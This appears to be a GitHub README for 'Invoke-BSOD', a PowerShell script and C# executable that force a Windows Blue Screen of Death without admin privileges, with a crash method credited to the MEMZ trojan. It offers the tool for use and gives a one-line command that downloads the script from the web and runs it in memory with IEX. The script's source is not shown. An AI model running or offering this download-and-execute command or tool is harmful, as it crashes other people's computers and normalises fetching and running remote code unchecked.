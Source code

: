 # Invoke-BSOD
For when you want a computer to be done - without admin!

BSOD method from here: https://github.com/Leurak/MEMZ/blob/master/WindowsTrojan/Source/Destructive/KillWindows.c#L10-L18

### Invoke-BSOD.ps1

A PowerShell script to induce a Blue Screen of Death (BSOD) without admin privileges.

This is a standalone script, **it does not depend on any other files here.**

Usage:
```
PS>Import-Module .\Invoke-BSOD.ps1
PS>Invoke-BSOD
```
OR...
```
PS>IEX((New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/peewpw/Invoke-BSOD/master/Invoke-BSOD.ps1'));Invoke-BSOD
```
### BSOD.exe

A compiled executable that also create a Blue Screen of Death.

### Program.cs

The C# source behind BSOD.exe
